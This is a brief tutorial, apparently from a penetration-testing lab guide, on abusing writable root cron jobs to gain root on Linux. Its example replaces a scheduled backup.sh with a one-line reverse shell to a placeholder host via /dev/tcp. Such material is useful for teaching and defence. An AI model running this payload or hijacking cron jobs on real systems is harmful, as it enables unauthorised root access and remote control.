 Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Read the file keeping system-wide cron jobs under `/etc/crontab`

Example:

`backup.sh` runs every minute.

If we edit `backup.sh` as follows, it will spawn a reverse shell:

```
#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1
```
